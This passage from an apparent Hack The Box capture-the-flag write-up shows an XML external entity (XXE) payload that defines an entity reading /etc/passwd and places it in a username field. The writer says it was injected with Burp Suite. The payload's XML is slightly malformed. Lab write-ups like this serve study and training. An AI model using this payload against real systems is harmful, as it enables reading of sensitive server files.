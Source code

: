With this, our XML will look as:

```XML
<!-- API Version 1.0.0 -->
<!DOCTYPE foo> [
  <!ELEMENT foo ANY>
  <!ENTITY bimo SYSTEM "file:///etc/passwd" >
]> <!-- -->
<root>
  <data>
    <username>&bimo;</username>
    <is_admin>0</is_admin>
  </date>
</root>
```

I injected it using burpsuite, because of the URL encoding.

![](/assets/images/htb-writeup-spider/spider55.png)

If everything worked as intended, we will see the file in the webpage.
